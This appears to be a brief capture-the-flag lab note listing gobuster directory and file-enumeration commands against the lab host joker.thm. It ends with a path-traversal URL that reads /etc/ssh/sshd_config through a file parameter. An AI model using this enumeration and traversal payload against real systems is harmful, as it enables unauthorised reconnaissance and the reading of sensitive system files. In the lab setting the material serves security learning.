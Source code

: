 ## Gobuster rcon

##### Main commands

*Basic directory enumeration*
```
gobuster dir -u http://joker.thm -w /usr/share/dirb/wordlists/common.txt 
```

*File enumeration*
```
gobuster dir -u http://joker.thm -w /usr/share/dirb/wordlists/common.txt -x txt,php,html,zip
```

```
http://10.10.23.28/secret-script.php?file=../../../etc/ssh/sshd_config
```

